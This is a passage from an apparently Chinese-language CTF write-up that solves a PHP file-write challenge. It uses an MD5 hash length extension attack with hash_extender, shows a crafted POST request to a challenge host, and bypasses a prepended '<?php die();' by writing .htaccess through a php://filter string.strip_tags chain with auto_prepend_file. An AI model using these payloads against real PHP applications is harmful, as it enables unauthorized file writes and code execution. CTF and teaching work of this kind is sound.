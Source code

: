 ```php
    $content = $secret . $filename;
    file_put_contents($filename, $content);
} else {
    exit("Think Extensively.");
} 
```

这里同样也给出了加密前的secret的md5值，我们这里就当做data也就是demo1的yusa是空值即可。  
当然因为这里加入了死亡杂糅的内容所以这里我放出wp，其实总的来说还是上面分析的方法。

我们可以使用 `hash_extender` 这个工具来进行哈希长度扩展攻击, 生成新的密文

首先考虑将`secret`写入到一个文件中

执行:

```shell
hash_extender -s 37870febc8d470109a867802b8031454 -a "[[a.txt" -f md5 -l 13 -d ''
```

得到:

```php
Type: md5
Secret length: 13
New signature: 4f150e4b71070951112f56be4044c181
New string: 8000000000000000000000000000000000000000000000000000000000000000000000000000000000000068000000000000005b5b612e747874
```

> 可能需要用 CyberChef 套 From Hex (Auto) - To Base64

发送:

```http
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: dino-ctf.kengwang.com.cn:32857

hash=4f150e4b71070951112f56be4044c181&content=gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGgAAAAAAAAAW1thLnR4dA
```

访问 `a.txt`

发现`secret`是`<?php die();`, 接下来是死亡 die 绕过

这里需要用到伪协议的一些技巧:

首先利用 `string.strip_tags` 的过滤器链吞掉之前的死亡 die, 然后再在后面接上你想要写的内容

这里使用写 `.htaccess` 的方法来实现rce, 直接加个 `auto_prepend_file` 即可

构造出 `php://filter/write=string.strip_tags/?>php_value auto_prepend_file flag\n#/resource=.htaccess`

```bash
hash_extender -s 37870febc8d470109a867802b8031454 -a "[[php://filter/write=string.strip_tags/?>php_value auto_prepend_file flag\n#/resource=.htaccess" -f md5 -l 13 -d ''
```

